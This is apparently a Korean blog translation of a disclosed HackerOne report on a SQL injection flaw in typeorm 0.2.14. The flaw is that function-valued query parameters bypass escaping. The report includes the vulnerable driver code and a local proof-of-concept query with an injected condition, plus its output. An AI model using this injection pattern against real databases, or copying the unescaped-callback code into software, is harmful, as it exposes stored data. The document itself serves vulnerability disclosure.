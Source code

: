 ```yaml
---
layout: post
title: SQL 인젝션 (Typeorm)
categories: PoC
tags: [Bugbounty, SQLinjection, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : verichains (verichains)] https://hackerone.com/reports/506654

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 2일 오후 1시 25분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 소스코드는 typeorm의 자산입니다. 취약점의 종류는 SQL Injection이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 8.6/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
(써드파티 모듈인) Typeorm의 SQL 인젝션을 리포팅 하고 싶습니다. 이 취약점은 데이터베이스의 자료들을 노출시킵니다.

# 모듈
* 모듈 이름 : typeorm
* 버전 : 0.2.14
* npm 페이지 : https://www.npmjs.com/package/typeorm
  
## 모듈 설명
TypeORM은 Nodejs, 브라우저, Cordova, PhoneGap, Ionic, React Native, NativeScript, Expo 그리고 Electron platforms에서 실행될 수 있는 ORM입니다. 또한 TypeScript와 함께 쓰일 수 있으며 자바스크립트(ES5, ES6, ES7, ES8)와도 쓰일 수 있습니다. 이 모듈의 목적은 최신의 자바스크립트 기능들을 항시 지원해주는 것이고 추가 기능들을 제공해주는 것 이며 데이터베이스를 사용하는 어떤 종류의 애플리케이션 개발이라도 지원해줄 수 있도록 합니다. 몇 개 안되는 테이블을 가진 작은 애플리케이션부터 큰 스케일의 많은 데이터베이스를 가진 기업형 애플리케이션까지 말입니다.

현존하는 다른 자바스크립트 ORM들과는 다르게, TypeORM은 액티브 레코드와 데이터 매퍼 패턴 모두 지원하며, 이 말은 당신이 더 생산적인 방법으로 고 퀄리티의 중복이 적고 확장성있으며 유지가 잘되는 애플리케이션을 만들 수 있다는 것입니다.

## 모듈 스탯
npm의 모듈 페이지의 숫자들과 아래의 스탯들을 교체하세요(Replace stats below with numbers from npm’s module page:) :
- - -
# 취약점
## 취약점 설명
만약 한 함수가 이스케이핑을 하지 못한다면 특정한 맥락에서 SQL 인젝션이 공격자에 의해 수행될 여지를 주게되는데 이 때 **MysqlDriver.ts**의 **escapeQueryWithParameters** 메소드는 직접적으로 파라미터에서 값을 리턴합니다.
https://github.com/typeorm/typeorm/blob/d9f5581b22c4cccfab55ee23fad699e1c8acadf8/src/driver/mysql/MysqlDriver.ts#L387
{% highlight html %}
    if (value instanceof Function) {
        return value();

    } else {
        escapedParameters.push(value);
        return "?";
    }
{% endhighlight %}
의도치 않았고 잘은 모르겠지만, 그 문서 안에 정보는 없었고, (콜백 함수에 의해 값이 할당된) 만약 누군가가 이 패턴을 적용시킨다면 이것은 SQL 인젝션 공격이 될 것 입니다.

# 공격이 발생되는 과정
* 새로운 테스트 typeorm 패키지를 생성합니다.
{% highlight html %}
npx typeorm init --name Test --database mysql
{% endhighlight %}
* 로컬 크리덴셜을 위해 ormconfig.json을 수정합니다.
인젝션을 테스트 해보기 위해 index.ts 를 수정합니다.  
{% highlight html %}
import "reflect-metadata";
import {createConnection} from "typeorm";
import {User} from "./entity/User";

createConnection().then(async connection => {

    console.log("Inserting a new user into the database...");

    for(var i=0;i<10;i++) {
        const user = new User();
        user.firstName = `Timber ${i}`;
        user.lastName = "Saw";
        user.age = 25 + i;
        await connection.manager.save(user);
        console.log("Saved a new user with id: " + user.id);
    }

    const repo = connection.getRepository(User);

    console.log(await repo.createQueryBuilder().where('firstName = :name', {name: () => "-1 or firstName=0x54696d6265722033"}).getOne());

    process.exit(0);
}).catch(error => console.log(error));
{% endhighlight %}
(0x54696d6265722033 는 “Timber 3” 입니다)

출력 :  
{% highlight html %}
Inserting a new user into the database...
User { id: 5, firstName: 'Timber 3', lastName: 'Saw', age: 28 }
{% endhighlight %}
- - -
# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* MacOs
* NodeJS v8.12.0
* npm 6.4.1

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No
  
- - -
# 영향
공격자가 SQL 인젝션 공격을 수행할 수 있게 합니다.